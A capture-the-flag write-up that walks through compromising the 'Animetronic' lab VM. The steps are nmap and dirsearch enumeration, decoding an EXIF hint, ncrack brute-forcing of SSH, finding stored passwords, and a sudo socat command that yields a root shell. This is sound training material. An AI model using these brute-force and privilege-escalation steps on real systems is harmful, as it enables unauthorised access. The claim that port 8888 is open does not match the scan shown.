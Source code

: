 ```yaml
---
title: Animetronic-Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
---
```

# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.76 08:00:27:06:e0:17 PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 

|   256 59:eb:51:67:e5:6a:9e:c1:4c:4e:c5:da:cd:ab:4c:eb (ECDSA)

|_  256 96:da:61:17:e2:23:ca:70:19:b5:3f:53:b5:5a:02:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Animetronic

|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:06:E0:17 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  
TRACEROUTE

HOP RTT      ADDRESS

1   17.72 ms animetronic (192.168.1.76)
```

We can see that 80, 22 and 8888 ports are opened

# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch -u http://192.168.1.76 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
# result -> /staffpages/new_employees
```

(note that the default dictionary might not work)

## Exif 

As we access the directory, we can see nothing but a picture.

Download it and check the exif data of it:
```shell
root@kali ~/Downloads [1]# exiftool new_employees.jpeg
ExifTool Version Number         : 12.67
File Name                       : new_employees.jpeg
Directory                       : .
File Size                       : 160 kB
File Modification Date/Time     : 2024:03:22 12:54:39-04:00
File Access Date/Time           : 2024:03:22 12:55:22-04:00
File Inode Change Date/Time     : 2024:03:22 12:54:39-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=
Image Width                     : 703
Image Height                    : 1136
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 703x1136
Megapixels                      : 0.799
```

 Decoding:

```bash
echo "ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=" | base64 -d
```

Result :

```shell
ɯǝssɐƃǝ‾ɟoɹ‾ɯıɔɥɐǝן # message_for_michael
```

Then we can do a smart assumption that this might be a directory.

By accessing it:

![](/assets/img/animetronic/Note_img.png)

Then:

![](/assets/img/animetronic/personal_info.png)


We can make another guess that this might be for ssh. Hence what we need to do now is to use cupp to create a dictionary, then we can consider using ncrack to get the ssh user and password.

ssh user & password:

```
ncrack -v -u michael -P michael.txt -T5 ssh://192.168.1.76 -f
```

Result:

```shell
192.168.1.76 22/tcp ssh: 'michael' 'leahcim1996'
```

## SSH

As we login into via ssh, we are able to see a file "Note.txt"

```shell
michael@animetronic:/home/henry$ cat Note.txt 
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
```

By decoding it, it is "henrypassword.txt".

```shell
find / -name henrypassword.txt
```

Result:

```shell
/home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
```

Then we are able to get the password of user henry:

```shell
michael@animetronic:/home/henry$ cat /home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
IHateWilliam
```

Login into user henry:

```shell
henry@animetronic:~$ sudo -l
Matching Defaults entries for henry on animetronic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User henry may run the following commands on animetronic:
    (root) NOPASSWD: /usr/bin/socat
```

## Privilege Escalation

```shell
sudo socat stdin exec:/bin/bash
```

